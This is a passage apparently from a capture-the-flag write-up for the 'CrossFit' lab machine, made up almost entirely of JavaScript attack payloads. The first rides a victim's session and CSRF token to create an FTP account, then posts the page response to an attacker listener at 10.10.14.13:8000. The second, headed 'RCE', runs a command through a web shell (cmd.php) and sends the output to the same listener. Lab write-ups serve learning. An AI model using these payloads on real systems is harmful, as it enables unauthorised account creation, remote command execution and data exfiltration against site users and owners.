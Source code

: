 ```js
    if (csrfToken) {
      fetch('http://ftp.crossfit.htb/accounts', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
        },
        credentials: 'include', 
        body: new URLSearchParams({
          _token: csrfToken,
          username: 'test123',
          pass: 'Password123!',
        }),
      })
      .then(response => response.text())
      .then(html => {
        return fetch('http://10.10.14.13:8000', {
          method: 'POST',
          credentials: 'include', 
          body: html,
        });
      });
    } else {
      fetch('http://10.10.14.13:8000/nocookie', {
        method: 'POST',
        credentials: 'include', 
      })
    }
  }) 
```

### RCE

```js
fetch('http://development-test.crossfit.htb/cmd.php?cmd=id', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include',
      body: html,
    });
  }) 
```